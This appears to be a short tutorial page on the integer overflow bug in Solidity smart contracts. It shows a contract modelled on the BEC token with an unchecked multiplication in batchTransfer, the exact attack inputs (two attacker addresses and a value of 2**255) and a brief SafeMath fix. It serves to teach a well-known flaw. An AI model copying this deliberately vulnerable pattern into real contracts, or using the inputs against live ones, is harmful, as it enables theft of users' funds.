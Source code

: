 ## 整数溢出漏洞
* https://www.bilibili.com/video/BV1VV4y1p76M/
* http://www.codebaoku.com/smartcontract/smartcontract-overflow.html
* https://github.com/solidity-korea/solidity-A-to-Z/blob/master/contracts/BEC-overflow.sol
```
contract BECOverflow{
    //合约内部账本，记录每个账户的余额
  mapping(address => uint256) balances;
    //批量转账，接受者_receivers数组，转账金额_value
  function batchTransfer(address[] calldata _receivers, uint256 _value) public returns (bool) {
    uint cnt = _receivers.length;
    //计算转账总额
    uint256 amount = uint256(cnt) * _value;
    //检查转账总额是否超过合约余额
    require(cnt > 0 && cnt <= 20);
    //检查转账总额是否超过合约余额
    require(_value > 0 && balances[msg.sender] >= amount);
    //从合约调用者账户中减去转账总额
    balances[msg.sender] = balances[msg.sender] - amount;
    //循环转账
    for (uint i = 0; i < cnt; i++) {
        //检查接收者账户余额是否足够
        balances[_receivers[i]] = balances[_receivers[i]] + _value;
        //触发转账事件
        //Transfer(msg.sender, _receivers[i], _value);
        payable(_receivers[i]).transfer(1 ether);
    }
    return true;
  }
    constructor() payable{}

  	receive() external payable{}

}
```
How to Attack?
```
_receivers:  ["attackers_address","attackers_address"]
_value:      57896044618658097711785492504343953926634992332820282019728792003956564819968

// due to uint256's max value is 2**256 (when >=2**256 will be overflowed),
//and in this contract will multiply _receivers.length,
//so attacker set 2 receiver address and set _value == 2**255
// the amount's final value will be 2**255*2, (2**256) 
```
How to fix?
```
solidity version <= 0.8.0, openZeppelin SafeMath
solidity version >0.8.0, solidity's SafeMath
```
